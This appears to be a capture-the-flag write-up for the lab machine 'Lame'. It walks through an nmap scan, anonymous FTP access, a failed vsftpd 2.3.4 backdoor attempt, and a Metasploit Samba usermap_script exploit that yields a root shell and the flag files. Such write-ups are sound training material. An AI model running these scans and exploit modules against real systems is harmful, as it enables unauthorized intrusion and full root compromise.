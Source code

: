 # Lame

IP: `10.10.10.3`

## Initial recon

### First scan the port

```sh
nmap -A -T5 -p- 10.10.10.3
```

### Result from scan

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-15 03:15 EDT
Nmap scan report for 10.10.10.3
Host is up (0.073s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   71.71 ms 10.10.14.1
2   71.86 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.29 seconds
```

### Result interpretation

First, let's look at the FTP anonymous login portion. We *could* try to login and see if we can get anything from the files inside the FTP share. But first, let's find any existing exploits for that specific FTP version.

0. We can try accessing the FTP share anonymously to see if there's aynthing in there
1. A quick google search for `ftp         vsftpd 2.3.4 exploit` yields a rapid7 exploit.
2. Another attack we can try is on the SAMBA

## Logging into the FTP server

```sh
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:omar2535): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```
It gave us nothing. So there's not much to see inside this FTP share. Let's try digging a bit deeper though.

## Using the VSFTPD_234 backdoor

### Metasploit exploit run

```sh
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > show targets
msf exploit(vsftpd_234_backdoor) > set TARGET 0
msf exploit(vsftpd_234_backdoor) > show options
msf exploit(vsftpd_234_backdoor) > run
# [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
# [*] 10.10.10.3:21 - USER: 331 Please specify the password.
# [*] Exploit completed, but no session was created.
```

Annnnnd a dead end. It won't give us back a session. A quick google search shows that some people suggest using netcat to create a hook for the session, but I have a feeling that the solution is easier than that, so let's the next method, SAMBA.

## Using Samba usermap script

### Metasplot exploit run

```sh
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > show targets
msf exploit(usermap_script) > set TARGET 0
msf exploit(usermap_script) > show options
msf exploit(usermap_script) > run
```

And now we have a shell!

### Digging around

```sh
whoami
# root
pwd
# /
cd ~
cat root.txt # for flag for root
cd /home/makis
cat user.txt # for flag for user
```

## Takeaways

1. Don't dig too deep into the rabbit hole, try other easier methods before coming back
2. Note all possible vulnerabilities to attack so that if one method fails, other methods can be used as backup